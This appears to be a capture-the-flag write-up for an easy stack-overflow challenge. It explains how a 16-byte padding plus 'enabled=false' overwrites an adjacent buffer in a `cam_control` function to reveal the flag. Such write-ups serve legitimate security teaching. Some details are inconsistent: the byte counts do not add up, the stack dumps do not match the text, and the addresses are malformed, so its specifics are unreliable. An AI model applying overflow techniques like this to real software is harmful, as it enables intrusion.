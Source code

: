# Pwn - SC0

>> Pwn - easy
>
>You're about to infilitrate the headquarters of EvilCorp, and you stumble upon an abondoned workstation. Is this an opportunity or a trap?

## Writeup

The `cam_control` function reads in 24 bytes to `cam_label` with a size of 8 bytes, causing a *stack overflow*. If we write 16 A's, the stack looks like this (the characters are represented as hex values):
``` 
Address          | Value
-----------------+----------------
0x0x7fff724658f0 | 65 6e 61 62 6c 65 64 3d 
0x0x7fff724658f8 | 74 72 75 65 2c 20 72 65
...
```

Adding any more characters will overflow the `cam_data` buffer. If we write 

```
AAAAAAAAAAAAAAAAenabled=false
```

we will overwrite the string `enabled=true` to `enabled=false` in `cam_data` and get the flag. The stack looks like this after the buffer overflow:

```
Address          | Value
-----------------+----------------
0x0x7fff724658f0 | 65 6e 61 62 6c 65 64 3d 
0x0x7fff724658f8 | 66 61 6c 73 65 00 00 65
...
```